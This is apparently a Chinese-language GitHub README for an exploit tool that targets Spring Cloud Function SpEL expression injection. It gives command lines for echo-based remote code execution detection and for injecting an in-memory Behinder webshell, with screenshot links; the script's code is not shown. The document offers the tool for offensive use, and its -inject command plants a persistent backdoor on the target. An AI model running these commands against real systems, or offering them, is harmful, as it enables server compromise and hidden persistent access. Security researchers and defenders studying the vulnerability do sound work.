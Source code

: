 # Spring-cloud-function-SpEL-RCE
针对Spring-cloud-function-SpEL表达式注入进行回显和内存马注入的exp
# 使用
回显探测
<img width="800" alt="image" src="https://user-images.githubusercontent.com/38367493/165876663-0e050317-7852-4f91-a683-1a060b5dfdd6.png">

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/

<img width="565" alt="image" src="https://user-images.githubusercontent.com/38367493/165876405-edbbee29-bb5c-4cc3-a03c-881b8a9d9c4b.png">

注入冰蝎

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/ -inject

<img width="773" alt="image" src="https://user-images.githubusercontent.com/38367493/165486095-87938c34-b3b2-43f3-a341-17ef606bd448.png">

<img width="1000" alt="image" src="https://user-images.githubusercontent.com/38367493/165486771-01e3ea5b-dbd6-4e14-9559-fa24483faa59.png">


